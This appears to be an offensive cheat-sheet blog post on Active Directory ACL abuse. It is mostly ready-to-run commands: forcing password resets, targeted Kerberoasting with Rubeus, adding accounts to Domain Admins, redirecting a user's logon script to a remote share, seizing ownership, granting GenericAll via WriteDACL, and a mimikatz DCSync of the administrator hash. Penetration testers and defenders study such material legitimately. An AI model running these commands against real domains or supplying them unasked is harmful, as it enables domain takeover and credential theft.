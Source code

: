 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: ACL Abuse
---
```


Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
1. **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
2. **Targeted Kerberoasting**
    1. Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    2. Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    3. Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
3. **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
1. **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
```bash
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
2. AllExtendedRights
- Change Password
```bash
net user <username> <password> /domain
```
- Add to Group
```bash
net group "domain admins" spotless/add /domain
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
3. Self-Membership (Add to Group)
```bash
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
4. ExtendedRight (User-Force-Change-Password (Password Reset))
```bash
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```
5. WriteProperty (Add to Group)
```bash
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```
6. WriteOwner (Change the object’s owner)
```bash
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```
7. WriteDACL (Grant Generic Permissions** (must be the owner))
```bash
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
8. DCSync Attack 
- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.
```bash
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```
---

[back](/adprivesc.html)